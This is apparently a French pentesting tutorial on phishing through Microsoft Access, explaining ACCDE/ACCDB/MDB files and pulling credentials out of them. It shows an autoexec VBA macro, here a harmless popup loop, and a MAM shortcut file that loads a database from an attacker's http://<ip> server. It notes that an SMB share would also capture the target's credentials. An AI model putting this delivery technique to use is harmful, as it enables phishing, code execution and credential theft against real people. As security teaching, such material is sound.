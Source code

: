 Prérequis :

-   Programmation en VBA
-   Compréhension général des services Microsoft en Pentesting.
    

Comprendre le Sevice Access :

les fichiers avec pour extension ACCDE (Microsoft Access Execute Only Database) sont des fichier utilisés pour protéger un fichier ACCDB. Il remplace le format MDE qui sécurise un fichier MDB utilisé par les anciennes versions d’Access. les permissions ne permettent pas de lire le code des macros (permissions Execute). C'est à dire que le code VBA d’un fichier ACCDE est enregistré de manière à empêcher quiconque de le voir ou de le modifier.

![](https://media.discordapp.net/attachments/909429116707680256/919240781158567986/unknown.png)

les differences majeur entre ACCDB et MDB c'est que ACCDB ne prennent pas en charge la sécurité ou la réplication au niveau de l’utilisateur alors que MDB oui, par contre ACCDB utilise un système cryptographique plus avancée via les API windows.

Exemple de fichier MDB :

![](https://media.discordapp.net/attachments/909429116707680256/919245188092801054/unknown.png)

Comme vous pouvez le voir les données sont partiellement chiffré on peut obtenir ces données : `Driver.SQLServer.SERVER\SQLEXPRESS` `UID: CEOuser` `PWD: CEOpassword`

Exemple de fichier ACCDB :

![](https://media.discordapp.net/attachments/909429116707680256/919246921380552704/unknown.png)

c'est illisible mais nous pouvons malgé tout avoir accès à certaines données via `strings`

![](https://media.discordapp.net/attachments/713142876241920000/919261585929809980/unknown.png)

MDB et ACCDB sont des bases de données de Microsoft Access, mais MDB n'est plus utilisé dans les versions récentes. Chaque DB contiennent différents objets comme les tables, requêtes, formulaires, états, ou encore des macros et du code VBA ( Visual Basic ). Les fichiers correspondant aux bases de données Access sont souvent lié à un fichier appellé LACCDB ou LDB pour les ancienne versions. ces fichiers sont des fichiers de verrouillage qui permettent de déterminer quels enregistrements sont verrouillés dans une base de données partagée et par qui ils sont verrouillés.

![](https://media.discordapp.net/attachments/909429116707680256/919249514563518495/unknown.png?width=522&height=343)

le but du phishing via Access peux permettre à un attaquant de gérérer un code VBA malveillant en ACCDE et en autoexec pour que au moment de l'execution la victime soit automatiquement redirigé vers le serveurs de l'attaquant.

pour l'exemple nous allons faire un code VBA innoffensif qui va faire une boucle sur la pop up.

```vb
Public Function main()
	func
End Function

Sub func()
	do
	  Msgbox"RISTBS LE AKER PRO",0+16,"An0nym0us"
	loop
End Sub
```

![](https://media.discordapp.net/attachments/713142876241920000/919256210790838352/unknown.png?width=974&height=192)

pour mettre une macro et mettre l'autoexec, aller dans `Créer`->`Macro` et ajouter l'action `ExcuterCode` puis mettre la fonction principal de ton code pour ma part c'est `main()` et après `Ctrl-S` nommez le _autoexec_.

Utilisation de MAM sur un serveur HTTP mais on peut utiliser un partage SMB ce qui va en meme temps volé les creds de la cible.

```powershell
[Shortcut Properties]
AccessShortcutVersion=1
DatabaseName=phishing.accdb
ObjectName=autoexec
ObjectType=Macro
Computer=DESKTOP-3IEFJ48
DatabasePath=http://<ip>/phishing.accde
EnableRemote=0
CreationTime= 1d7ee7f7e171f3a
Icon=265
```

![](https://media.discordapp.net/attachments/713142876241920000/919274348836171818/unknown.png?width=974&height=440)

Lors de l'execution du MAM voila ce qu'il ce passe.

![](https://media.discordapp.net/attachments/713142876241920000/919251022973653062/unknown.png?width=974&height=215)
